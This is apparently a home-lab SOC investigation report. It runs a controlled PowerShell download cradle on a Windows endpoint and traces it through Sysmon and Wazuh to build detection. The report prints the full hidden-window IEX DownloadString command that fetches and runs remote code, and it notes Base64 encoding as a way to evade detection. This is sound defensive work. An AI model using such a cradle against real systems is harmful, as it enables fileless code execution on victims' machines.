





# UC-03: Suspicious PowerShell Execution

The first investigation of Chapter 2, and the first that starts from the endpoint instead of the wire. With Sysmon deployed and the endpoint's normal behavior measured, the question shifts from "can the lab see network activity?" to "can it see what a process is actually doing?" This scenario runs a controlled PowerShell download cradle — the opening move of countless real intrusions — and follows it from the command that launched it to the record it left in Wazuh.

This is the deliverable of milestone C2-04. The Sysmon pipeline it relies on was built in the [deployment](../../docs/09-sysmon-deployment.md) and profiled in the [baseline](../../docs/10-sysmon-baseline.md); status is tracked in the [Roadmap](../../ROADMAP.md).

## Summary

| Field | Detail |
|---|---|
| Scenario | UC-03 — Suspicious PowerShell execution (download cradle) |
| Endpoint | SOC-WIN10 (10.10.10.30) |
| Payload host | Debian (10.10.10.40), serving a benign script over HTTP |
| Activity | PowerShell cradle with evasion flags — `-nop -w hidden` running `IEX (New-Object Net.WebClient).DownloadString(...)` |
| MITRE ATT&CK | [T1059.001 — Command and Scripting Interpreter: PowerShell](https://attack.mitre.org/techniques/T1059/001/), [T1105 — Ingress Tool Transfer](https://attack.mitre.org/techniques/T1105/) |
| Telemetry | Sysmon (Event ID 1 and 3) via the SOC-WIN10 agent |
| Outcome | The full command line was captured, decoded, and attributed in Wazuh — but raised no alert, since no rule yet matches it. The gap C2-05 exists to close |

The report follows a STAR structure: Situation, Task, Action, Result.

## Situation

Sysmon runs on SOC-WIN10 and its telemetry reaches the manager, proven twice — a bare process creation in the deployment, and a network-touching event in the baseline. What neither exercised was an event that actually looks like an attack. The baseline set the reference for that: over an hour of normal use, no PowerShell process ever carried `IEX`, `DownloadString`, or a hidden window. Those markers belong to malicious launchers, not to an updater or a browser.

The scenario keeps the attacker infrastructure inside the lab. A Debian host on the SOC network (10.10.10.40) serves a harmless `payload.ps1` — a single `Write-Host` line — over `python3 -m http.server`. Nothing malicious executes; the value is in the execution pattern, not the effect. The download stays inside the SOC segment, so it never crosses the FortiGate, which is exactly why endpoint telemetry, not the firewall, is what sees it.

## Task

Confirm that the suspicious execution is:

- recorded by Sysmon as an Event ID 1 process creation with the full command line — the `IEX`, `DownloadString`, and evasion flags legible, along with the parent process;
- accompanied by the matching network activity (Event ID 3) reaching the payload host;
- collected by Wazuh through the SOC-WIN10 agent, decoded and attributed;
- distinguishable from the normal endpoint behavior measured in the baseline.

The scenario succeeds if one attacker action can be traced from the command that launched it to the decoded record in the SIEM — and if the report is honest about whether that record raises an alert.

## Action

The cradle ran from an elevated PowerShell on SOC-WIN10:

```powershell
powershell.exe -nop -w hidden -c "IEX (New-Object Net.WebClient).DownloadString('http://10.10.10.40/payload.ps1')"
```

Every flag earns its place in the T1059.001 pattern: `-nop` skips the user's profile, `-w hidden` runs with no visible window, and the `IEX (New-Object Net.WebClient).DownloadString(...)` is the classic fileless download-and-execute — the script runs from memory, never touching disk. The window closing on its own is the expected effect of `-w hidden`.


*The download cradle executed from PowerShell on the endpoint.*

On the Debian side, the HTTP server logged the retrieval — a `GET /payload.ps1` from 10.10.10.30 answered with 200:


*The `http.server` log: SOC-WIN10 pulling the payload, confirming the cradle reached its target.*

### Endpoint telemetry

Sysmon recorded the launch as Event ID 1 with the command line intact — the whole cradle readable, from the flags to the download URL — along with the SHA256 and the parent `powershell.exe`:


*The process creation: `powershell.exe` with `-nop -w hidden -c "IEX (New-Object Net.WebClient).DownloadString('http://10.10.10.40/payload.ps1')"`, hashes, and parent lineage.*

The download itself showed up as Event ID 3, a TCP connection from `powershell.exe` to the payload host on port 80:


*Event ID 3: `powershell.exe` connecting to 10.10.10.40:80. No Event ID 22 accompanies it — the target was a bare IP, so no DNS resolution occurred.*

The absence of a DNS event is worth naming: because the cradle points at an IP address rather than a hostname, there is nothing to resolve, and no Event ID 22 fires. A rule built for this activity has to lean on the command line and the connection, not on a DNS lookup that a direct-IP attacker never generates.

### Collection in Wazuh

With the manager archives briefly enabled — the same method the deployment describes, for the same level-0 reason — the Event ID 1 arrived decoded and attributed to SOC-WIN10, the `commandLine` field carrying the cradle in full:


*The archived event: `providerName Microsoft-Windows-Sysmon`, the full cradle command line under `data.win.eventdata.commandLine`, attributed to agent SOC-WIN10.*

## Result

The execution is traceable end to end. The same command line ties the endpoint to the manager: a hidden, profile-less PowerShell pulling code from 10.10.10.40, launched on SOC-WIN10 and collected by its agent. Set against the baseline, it stands out cleanly — none of `IEX`, `DownloadString`, or `-w hidden` appeared anywhere in the normal hour, so the activity is separable from the updater and browser noise that dominate this endpoint.

Nothing was raised, though. Wazuh's default Sysmon rules decode the event and drop it at level 0, so an analyst watching the dashboard would see nothing. The full attacker command sat in the SIEM, readable, and produced no alert — the same outcome as the network scan in UC-01, and the opposite of UC-02, where repeated logon failures tripped a correlation rule. No rule waits for this cradle.

Building that rule is milestone C2-05: a custom Wazuh rule that fires on the command-line signature captured here. UC-03 supplies what the rule needs — a controlled, well-understood event, with its footprint already documented against the baseline.

The scenario has one obvious edge. It runs a single, deliberately recognizable cradle; an attacker who Base64-encodes the command (`-enc`) or obfuscates the string would slip past a naive command-line match. That is a tuning problem for the rule work to weigh, and the reason the first rule needs a clear event to build against before it faces harder variants.

## Evidence

Screenshots supporting this investigation, sanitized before publication:

| File | What it shows |
|---|---|
| `evidence/01-cradle-execution.png` | The download cradle executed on SOC-WIN10 |
| `evidence/02-http-server-hit.png` | The Debian `http.server` logging the payload retrieval from 10.10.10.30 |
| `evidence/03-sysmon-event1-cradle.png` | Event ID 1 with the full cradle command line, hashes, and parent process |
| `evidence/04-sysmon-network-dns.png` | Event ID 3, the connection from `powershell.exe` to the payload host |
| `evidence/05-wazuh-archives-cradle.png` | The decoded event in the manager archives, attributed to SOC-WIN10 |
